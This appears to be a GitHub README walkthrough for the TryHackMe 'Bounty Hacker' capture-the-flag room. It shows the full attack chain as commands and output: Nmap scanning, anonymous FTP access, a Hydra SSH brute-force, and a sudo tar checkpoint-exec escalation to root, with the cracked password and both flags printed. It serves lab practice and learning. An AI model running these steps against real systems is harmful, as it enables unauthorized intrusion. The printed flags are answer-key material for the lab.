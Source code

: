 # Bounty-Hacker

## 🚀 Step by step, ooh, baby

### 📋 Pré-requisitos
Nmap 7.93 (https://nmap.org)
Hydra v9.4 (https://github.com/vanhauser-thc/thc-hydra)

### 🔧 Execuç
```$ nmap -D RND:20 --open -sS -p- <ip>``` <br />
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-14 21:48 -03
Nmap scan report for <ip>
Host is up (0.23s latency).
Not shown: 56227 filtered tcp ports (no-response), 9305 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

```$ nmap --open -sV -p21,22,80 <ip>```<br />
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-14 21:58 -03
Nmap scan report for <ip>
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.96 seconds

```$ ftp -p 21 <ip>```<br />
anonymous

```$ ls -lha```<br />
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt

```$ get locks.txt```<br />
```$ get task.txt```<br />

```$ cat task.txt```<br />
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

```$ cat locks.txt```<br />
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
...

```$ hydra -l lin -P locks.txt <ip> ssh```<br />
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-14 22:04:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://<ip>:22/
[22][ssh] host: <ip>   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-14 22:04:40

```$ ssh -p 22 lin@<ip>```<br />
RedDr4gonSynd1cat3

```$ ls -lha```<br />
total 12K
drwxr-xr-x  2 lin lin 4.0K Jun  7  2020 .
drwxr-xr-x 19 lin lin 4.0K Jun  7  2020 ..
-rw-rw-r--  1 lin lin   21 Jun  7  2020 user.txt

```$ cat user.txt```<br />
THM{CR1M3_SyNd1C4T3}

```$ sudo -l```<br />
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh```<br />
tar: Removing leading `/' from member names

```$ whoami```<br />
root

```$ ls -lha /root```<br />
total 40K
drwx------  5 root root 4.0K Jun  7  2020 .
drwxr-xr-x 24 root root 4.0K Jun  6  2020 ..
-rw-------  1 root root 2.7K Jun  7  2020 .bash_history
-rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
drwx------  2 root root 4.0K Feb 26  2019 .cache
drwxr-xr-x  2 root root 4.0K Jun  7  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   19 Jun  7  2020 root.txt
-rw-r--r--  1 root root   66 Jun  7  2020 .selected_editor
drwx------  2 root root 4.0K Jun  7  2020 .ssh

```$ cat /root/root.txt```<br />
THM{80UN7Y_h4cK3r}

## 📌 Referências:
https://tryhackme.com/room/cowboyhacker
https://gtfobins.github.io/gtfobins/tar/
